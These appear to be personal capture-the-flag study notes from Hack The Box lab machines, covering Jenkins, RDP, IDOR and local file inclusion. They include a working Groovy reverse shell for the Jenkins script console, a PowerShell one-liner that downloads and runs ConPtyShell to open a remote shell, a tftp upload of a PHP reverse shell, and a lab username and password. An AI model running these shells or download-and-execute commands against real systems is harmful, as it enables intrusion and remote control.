 
* What does versions of software mean?   

    <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/8/82/Semver.jpg/440px-Semver.jpg">  


* Groovy Script   
Groovy is a scripting language with Java-like syntax for the Java platform




* Exploiting the ability to execute arbitrary groovy script in script console in jenkins admin page:

```groovy
String host="10.10.15.82";
int port=1234;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```





dir /a:h /b /s

IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.15.189 3001


* Oopsie  

* Why I got stuck? 
  * I didn't think of changing the id in the url I kept trying to guess the Access ID when in reality I could access it by decreasing the id in the url when I'm viewing the access ID of the guest user. 





* Banner Grab  

```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

* So the problem was with the certificate. When I use `xfreerdp /v:[IP ADDRESS] /cert:ignore /u:Administrator`. 
* First off, we use Administrator instead of root in Windows machines.
* Second, I should've looked more into the flags or switches or whatever they call them. Anyway, it wouldn't have occured to me that I have to ignore the cert or that this was an option or that if I put it it will be functional.

```
[03:25:50:543] [2009:2010] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
[03:25:50:543] [2009:2010] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
[03:25:50:883] [2009:2010] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized
[03:25:50:918] [2009:2010] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state
[03:25:50:918] [2009:2010] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state
[03:25:50:214] [2009:2010] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[03:25:50:214] [2009:2010] [WARN][com.freerdp.crypto] - CN = Explosion

```



* The local file inclusion vul in the http service allowed me to access the `.htpasswd` file which, it seems, contains usernames and password. Indeed, it did contain the username and password of a user named Mike. I'll try and ssh with them. Damn just remembered there's no ssh on the host.
mike:Sheffield19


tftp 10.129.132.172 -m binary -c put revShell.php revShell.php

* It seems like I will be making a container so that I can open it with root privilege.  

[[Linux]]
	
	
	










